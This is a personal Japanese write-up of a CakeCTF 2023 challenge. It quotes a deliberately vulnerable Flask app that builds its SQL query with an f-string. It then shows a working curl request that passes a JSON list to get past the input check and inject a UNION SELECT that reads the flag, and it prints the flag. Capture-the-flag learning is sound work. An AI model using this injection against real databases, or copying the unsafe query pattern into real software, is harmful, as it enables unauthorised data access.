


# CakeCTF 2023参加記

初めてCTFの大会に`fixme`という名前で参加した。

CTFは一人でのんびり勉強を進めているので「どれか1問解ければ御の字」という姿勢で臨み無事に目標を達成できた。




## Country DB

```python
#!/usr/bin/env python3
import flask
import sqlite3

app = flask.Flask(__name__)

def db_search(code):
    with sqlite3.connect('database.db') as conn:
        cur = conn.cursor()
        cur.execute(f"SELECT name FROM country WHERE code=UPPER('{code}')")
        found = cur.fetchone()
    return None if found is None else found[0]

@app.route('/')
def index():
    return flask.render_template("index.html")

@app.route('/api/search', methods=['POST'])
def api_search():
    req = flask.request.get_json()
    if 'code' not in req:
        flask.abort(400, "Empty country code")

    code = req['code']
    if len(code) != 2 or "'" in code:
        flask.abort(400, "Invalid country code")

    name = db_search(code)
    if name is None:
        flask.abort(404, "No such country")

    return {'name': name}

if __name__ == '__main__':
    app.run(debug=True)

```

「`db_search`関数でSQLiをする」という意図を感じ取ったのでその周辺を調べる。

```python
cur.execute(f"SELECT name FROM country WHERE code=UPPER('{code}')")
```

最初`req = flask.request.get_json()`が怪しいのかと思ってソースコードを調べたが特に怪しい箇所もなさそうだった。

https://github.com/pallets/werkzeug/blob/3.0.1/src/werkzeug/wrappers/request.py#L576-L629

そのため後続にある値をチェックする処理に怪しい場所があるんだなと判断して考えていたら`len`関数を使っているので「`code`の値がlistでも通るのでは」ということに気づく。この時点で既に2日目になっていた。

そしてPythonの[f-string](https://docs.python.org/ja/3.8/tutorial/inputoutput.html#tut-f-strings)に直接listを入れてみるとそのまま値が入りそうなことにも気づく。




後は`union`句でいつものようにインジェクションのコードを組み立てる。


```
curl -H 'Content-Type: application/json' \
    --data-raw '{"code":[") union select flag from flag limit 1 -- -",""]}' \
    'http://countrydb.2023.cakectf.com:8020/api/search'
```


`CakeCTF{b3_c4refUl_wh3n_y0U_u5e_JS0N_1nPut}`

## 感想
解法を思い付くまで時間がかかり、発想力が足りていないことを痛感。勉強へのモチベーションが上がった。